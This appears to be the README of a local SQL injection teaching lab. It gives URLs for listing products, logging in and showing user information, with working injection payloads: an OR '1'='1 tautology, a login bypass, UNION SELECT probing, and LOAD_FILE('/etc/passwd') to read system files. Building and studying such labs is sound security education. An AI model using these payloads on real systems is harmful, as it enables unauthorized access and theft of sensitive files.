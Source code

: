 # Start

Start the network with `./start_linux_network.sh`. You have to wait a bit until the databases are populated.

## Overview

To get an overview of the examples goto http://127.0.0.1:8781/

# Listing Example

## Standard query

http://127.0.0.1:8781/list_products/products_page.php?value=100

## Attack

### Verification

Error when calling this url:

http://127.0.0.1:8781/list_products/products_page.php?value=100%27

### List all products

http://127.0.0.1:8781/list_products/products_page.php?value=100' OR '1'='1

# Login Example

## Standard

http://127.0.0.1:8781/login/login.php

Enter 'admin', 'admin'

## Attack

### Verification

Error when calling this url:

http://127.0.0.1:8781/login/login.php?user=user'&password=pass'

### Circumvent Login

http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1

# Read sensible Files

## Verification

Check if you can do a [`UNION SELECT`](https://www.techonthenet.com/sql/union_all.php) (add numbers at the end of the line until the query works 1, then 1,2, then 1,2,3 and s forth...):

http://127.0.0.1:8781/list_user/user_information.php?UserID=1%20UNION%20ALL%20SELECT%201,2,3

## Attack

If file permissions are set to db user (e.g. logged in as root or `GRANT FILE ON *.* TO 'user'@'%';` is set):

http://127.0.0.1:8781/list_user/user_information.php?UserID=1%20UNION%20ALL%20SELECT%20LOAD_FILE(%27/etc/passwd%27),2,3
